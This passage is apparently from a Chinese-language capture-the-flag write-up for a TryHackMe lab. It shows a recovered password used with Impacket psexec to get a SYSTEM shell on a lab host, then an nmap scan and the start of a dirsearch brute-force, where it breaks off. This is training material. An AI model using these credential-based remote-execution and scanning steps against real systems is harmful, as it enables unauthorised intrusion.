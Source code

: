 ```

得到achilles的登陆密码

登陆Achilles的账号，发现原来已经是system权限
```
┌──(root💀kali)-[~/windowns-privilege/impacket]
└─# /opt/impacket/build/scripts-3.9/psexec.py TROY.thm/Achilles:winniethepooh@10.10.48.179
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.48.179.....
[*] Found writable share ADMIN$
[*] Uploading file cbyYanQp.exe
[*] Opening SVCManager on 10.10.48.179.....
[*] Creating service CRPo on 10.10.48.179.....
[*] Starting service CRPo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
因为已经拿到了system权限，至此我们拿到了此靶机的所有flag

# Hard Challenge

服务发现
```
┌──(root💀kali)-[~/tryhackme/hackerhill]
└─# nmap -sV -Pn 10.10.243.173    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 04:04 EDT
Nmap scan report for 10.10.243.173
Host is up (0.33s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
81/tcp   open  http    nginx 1.18.0 (Ubuntu)
82/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8888/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.8.5)
9999/tcp open  abyss?
```

开了两个ssh服务，以及4个http服务，8888那个端口用的是python做的webapp

我们一个个查看。。。

## 81端口
目录爆破
```
┌──(root💀kali)-[~/tryhackme/dirsearch]
└─# python3 dirsearch.py -u http://10.10.243.173:81/ -e* -t 100
